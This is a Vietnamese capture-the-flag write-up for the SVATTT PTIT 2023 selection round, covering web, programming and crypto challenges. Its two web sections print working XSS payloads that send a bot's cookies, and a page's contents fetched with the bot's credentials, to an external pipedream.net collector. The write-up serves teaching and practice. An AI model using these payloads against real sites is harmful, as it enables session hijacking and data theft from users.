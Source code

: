# SVATTT 2023

Đây là tổng hợp Writeup CTF Tuyển chọn SVATT PTIT 2023

## Overview

| Title | Category | Flag |
| :---- | :------- | :--- |
| [Web01](#web01) | Web | `ATTT{3z X2S From V@tv069 With LOv3}` |
| [Web02](#web02) | Web | `ATTT{4_51mpl3_r3v_5ql}` |
| [Web01-again](#web01-again) | Web | `ATTT{4c3076335f56407476303639}` |
| [For01](#for01) | Programming | `ATTT{https://www.youtube.com/watch?v=4qNALNWoGmI}` |
| [Crypto01](#crypto01) | Crypto | `ATTT{Meow_meow meow meow_tra_lai_tam_tri_toi_day}` |


### Web01

![image](./writeupfiles/web1.png)

Chúng ta được cho 2 link, 1 là link challenge, 2 là link của con bot. Kinh nghiệm cho mình thấy đây là 1 bài Reflected XSS để lấy cookie

Sau khi đăng ký và đăng nhập, đây là UI của web challenge gồm 1 form để nhập note

Test thử với payload đơn giản `<img src=x onerror=alert(1)`, nhận thấy trang web bị lỗi XSS.

![image](./writeupfiles/web1-alert.png)

Ý tưởng bây giờ là khai thác Reflected XSS để lấy cookie của bot. Payload để lấy cookie của bot:

```
<img src=x onerror="this.src='https://eo4kqgjvne2o998.m.pipedream.net/?'+document.cookie; this.removeAttribute('onerror');">
```

Sau khi gửi đường link cho bot, mã Javascript được thực thi, ẽ gửi GET HTTP request đến URL requestbin kèm với cookie của bot

![image](./writeupfiles/web1-cookie.png)

Thay cookie của người dùng bằng Cookie của bot, truy cập admin panel ta sẽ lấy được flag

![image](./writeupfiles/web1-change.png)

Flag:

![image](./writeupfiles/web1-flag.png)

### Web02

![image](./writeupfiles/web2.png)

UI của challenge là 1 form search

![image](./writeupfiles/web2-ui.png)

Form search làm mình nghĩ ngay đến SQLi. Nhưng sau khi test thử với Burp Suite và sqlmap thì mình không detect được SQLi xD

dirsearch URL của challenge, tìm được 1 endpoint thú dzị là `/docker-compose.yml`

![image](./writeupfiles/web2-list-dir.png)

Truy cập `/docker-compose.yml` lấy được password vào mysql db 

![image](./writeupfiles/web2-docker.png)

Chui vào db mình lấy được flag

![image](./writeupfiles/web2-flag.png)

### Web01-again

![image](./writeupfiles/again.png)

Vẫn là cái UI của bài web01 trước

vẫn là con BOT cũ

![image](./writeupfiles/again-bot.png)

Nhưng cái khác ở đây là không thể dùng Reflected XSS để lấy cookie của bot do có flag http-only

![image](./writeupfiles/again-cookie.png)

Ý tưởng của mình là thay vì lấy cookie của con bot để vào được admin panel, giờ mình sẽ điều khiển con bot lấy luôn flag về cho mình

```
<script>
   var req = new XMLHttpRequest(); // Initializes the request object
   req.onload=reqListener; // Set the listener reqListener that is triggered when the response is ready
   var url="http://167.172.80.186:9999/admin.php"; // Initializes the URL of the PHP info page
   req.withCredentials=true; // Send the cookie header
   req.open("GET",url,false); // The request will be sent to the PHP info page of Metasploitable 2 (192.168.240.128) through the GET method synchronously
   req.send(); // Send the request
   function reqListener() {
      var req2=new XMLHttpRequest(); 
      const sess=this.responseText.substring(this.responseText.indexOf("ATTT"));
      req2.open("GET","https://eoisvenotwsj688.m.pipedream.net/?data="+btoa(sess),false);
      req2.send() 
   };
</script>
```

đầu tiên bot sẽ truy cập vào trang admin

Sau đó nó sẽ lọc response để lấy ra flag theo format ATTT{.......}

bước cuối nó gửi flag để server của mình, mã hóa base64 để tránh việc request URL quá dài

![image](./writeupfiles/again-solve.png)

giải ra chúng ta có flag

![image](./writeupfiles/again-flag.png)

### For01

![image](./writeupfiles/for1.png)

Ok, challenge này cho chúng ta 1 file rar, sau khi giải nén cấu trúc thư mục sẽ như thế này

![image](./writeupfiles/for1-list.png)

Tóm gọn lại là có 100 thư mục được đánh dấu từ 0-100, trong mỗi thư mục lại có 100 thư mục được đặt tên từ 0-100. 

Trong mỗi thư mục con lại có 100 file .txt 0.txt đến 100.txt.

Nhiệm vụ của chúng ta là tìm ra flag trong đống file .txt đấy. Mình dùng python để tự động hóa quá trình tìm flag. Đây là source code:

```
import os

for i in range(0,101):
    for j in range(0,101):
        for filename in os.listdir('./{}/{}/'.format(i,j)):
            f = open('./{}/{}/'.format(i,j)+filename,'r')
            r = f.read()
            if r != "almost" and r != "no" and r!="nah" and r!="you_got_it" and r!="try_again" and r!="Not_this_time" and r!="so_close" and r!="nope" and r!="better_luck_next_time":
                print(r)
```

Mình sử dụng 2 vòng lặp và đọc tất cả các file .txt trong thư mục con, kết quả tìm ra flag

![image](./writeupfiles/for1-flag.png)

### Crypto01

![image](./writeupfiles/crypt1.png)

Source code enc.cpp:

```
#include <iostream>
#include <string>
using namespace std;

#define EL printf("\n")

string flag = "ATTT{fake_flag}";

void bases(string &s) {
    for (int i = 0; i < s.size(); i += 4)
        printf("%o %u %x %u ", (unsigned char) s[i], (unsigned char) s[i + 1], (unsigned char) s[i + 2], (unsigned char) s[i + 3]);
    EL;
}

int main() {
    freopen("res.txt", "w", stdout);
    bases(flag);

    return 0;
}
```

Thuật toán: Lấy 4 kí tự liền nhau, kí tự đầu tiên sẽ chuyển về dạng octal, kí tự thứ 2 là dạng decimal, kí tự thứ 3 là dạng hex và kí tự thứ 4 tiếp tục là decimal, và lặp lại như vậy đến khi hết chuỗi.

Mình hiểu thuật toán nhưng quên mất cách code c++, code python thì lú nên tức quá quay ra làm bằng tay. Bật 4 tab cyberchef và quẩy tầm 2,3p mình được flag ám ảnh nhất mình từng tìm được

![image](./writeupfiles/crypt1-flag.png)
